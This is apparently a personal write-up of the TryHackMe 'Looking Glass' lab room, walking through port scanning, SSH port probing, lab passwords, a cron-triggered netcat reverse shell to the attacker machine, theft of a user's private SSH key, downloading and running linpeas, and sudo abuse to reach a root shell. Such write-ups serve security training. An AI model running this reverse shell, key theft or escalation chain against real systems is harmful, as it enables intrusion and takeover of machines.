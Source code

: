 # Looking Glass

**Room Link:** [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (651).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (652).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (654).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

Same as the first scan, a lot of ssh ports open

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>







## TCP/22 - SSH

**Kali**

<figure><img src="../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
nmap -A $VICTIM -oN results.txt
grep -oE '^[0-9]+/' results.txt > num.txt
cat num.txt
```

<figure><img src="../../.gitbook/assets/image (656).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat num.txt |  tr -d '\n' | sed 's/\//,/g' | tr -d ' '
```

<figure><img src="../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for port in 9000 9001 9002 9003 9009 9010 9011 9040 9050 9071 9080 9081 9090 9091 9099 9100 9101 9102 9103 9110 9111 9200 9207 9220 9290 9415 9418 9485 9500 9502 9503 9535 9575 9593 9594 9595 9618 9666 9876 9877 9878 9898 9900 9917 9929 9943 9944 9968 9998 9999 10000 10001 10002 10003 10004 10009 10010 10012 10024 10025 10082 10180 10215 10243 10566 10616 10617 10621 10626 10628 10629 10778 11110 11111 11967 12000 12174 12265 12345 13456 13722 13782 13783; do
    echo "connecting to port $port"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $port test@$VICTIM;done 
```



<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for i in $(seq 12345 13465); do echo "connecting to port $i"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $i $VICTIM;done | grep -vE 'Lower|Higher'
```

<figure><img src="../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>







```
Key: thealphabetcipher
```

<figure><img src="../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh $VICTIM -p 12350
Password: bewareTheJabberwock
```

<figure><img src="../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Kali**

<pre><code><strong>ssh jabberwock@$VICTIM 
</strong>Password: PlaceThanksSelfishGrinned
</code></pre>



**Victim**

<pre><code><strong>sudo -l
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cat /etc/crontab
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /home/jabberwock
</strong><strong>vi twasBrillig.sh
</strong></code></pre>

**twasBrillig.sh**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc $KALI 1337 >/tmp/f
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```



**Victim**

<pre><code><strong>sudo /sbin/reboot
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim(**tweedledee)

<pre><code><strong>cd /home/tweedledee
</strong><strong>cat humptydumpty.txt 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(**tweedledee)

<pre><code><strong>sudo -l
</strong>sudo -u tweedledum /bin/bash 
</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(**tweedledum)

<pre><code><strong>cd /home/tweedledum/
</strong>cat humptydumpty.txt 
</code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>su humptydumpty
</strong><strong>Password: zyxwvutsrqponmlk
</strong></code></pre>

I can get into alice's folder but I can't actually ls and see files, but I tried looking at files that are usually there and I found her id\_rsa key.

**Victim(humptydumpty)**

<pre><code><strong>cd /home/alice
</strong><strong>cat .ssh/id_rsa
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copy key to Kali

**Kali**

```
chmod 600 id_rsa 
ssh alice@$VICTIM -i id_rsa
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim(alice)**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(alice)**

```
cat /etc/sudoers.d/alice 
sudo -h ssalg-gnikool -l
sudo -h ssalg-gnikool /bin/bash
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>



